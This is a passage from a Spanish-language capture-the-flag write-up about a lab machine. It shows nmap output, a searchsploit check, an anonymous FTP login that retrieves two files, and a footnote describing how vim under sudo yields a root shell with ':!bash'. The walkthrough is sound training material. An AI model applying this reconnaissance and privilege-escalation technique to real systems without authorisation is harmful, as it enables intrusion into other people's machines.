 ```java
  24   │ | ssh-hostkey: 
  25   │ |   256 60:05:bd:a9:97:27:a5:ad:46:53:82:15:dd:d5:7a:dd (ECDSA)
  26   │ |_  256 0e:07:e6:d4:3b:63:4e:77:62:0f:1a:17:69:91:85:ef (ED25519)
  27   │ 80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
  28   │ |_http-server-header: Apache/2.4.58 (Ubuntu)
  29   │ |_http-title: Russoski Coaching
  30   │ MAC Address: 02:42:AC:11:00:02 (Unknown)
  31   │ Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
  32   │ 
  33   │ Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  34   │ # Nmap done at Tue Sep 16 12:28:40 2025 -- 1 IP address (1 host up) scanned in 7.76 seconds
───────┴─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```
Esta máquina tiene dos formas fáciles de resolverse:

### 1. EXPLOTACION FTP
En el puerto 22 nos encontramos con un servicio *OpenSSH* actualizado a una versión relativamente reciente, lo que indica que no presenta ninguna vulnerabilidad conocida (versiones < 7.7).  Continuaremos con el servicio FTP, el cual pasaremos por la herramienta [SearchSploit](https://github.com/topics/searchsploit) para ver si presenta alguna vulnerabilidad.
```ruby
❯ searchsploit "vsftpd 3.0.5"
Exploits: No Results
Shellcodes: No Results
```
Este servicio tampoco presenta ninguna vulnerabilidad conocida pero sí que permite el login con usuario *Anónimo*.  Vamos a ver que encontramos.

```ruby
❯ ftp 172.17.0.2
Connected to 172.17.0.2.
220 (vsFTPd 3.0.5)
Name (172.17.0.2:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls 
229 Entering Extended Passive Mode (|||20864|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0             667 Jun 18  2024 chat-gonza.txt
-rw-r--r--    1 0        0             315 Jun 18  2024 pendientes.txt
226 Directory send OK.
ftp> mget chat-gonza.txt pendientes.txt
mget chat-gonza.txt [anpqy?]? 
229 Entering Extended Passive Mode (|||48381|)
150 Opening BINARY mode data connection for chat-gonza.txt (667 bytes).
100% |************************************************************************************************************************************************|   667        0.65 KiB/s    --:-- ETA
226 Transfer complete.
667 bytes received in 00:00 (0.65 KiB/s)
mget pendientes.txt [anpqy?]? 
229 Entering Extended Passive Mode (|||59834|)
150 Opening BINARY mode data connection for pendientes.txt (315 bytes).
100% |************************************************************************************************************************************************|   315        0.30 KiB/s    --:-- ETA
226 Transfer complete.
315 bytes received in 00:00 (0.30 KiB/s)
```

[^1]: Vim es un editor de texto para sistemas Unix/Linux que, al poder ejecutarse con sudo, se convierte en una vía de escalada de privilegios porque permite lanzar comandos de sistema desde dentro del editor (por ejemplo con :!bash), lo que posibilita abrir una shell con permisos de root.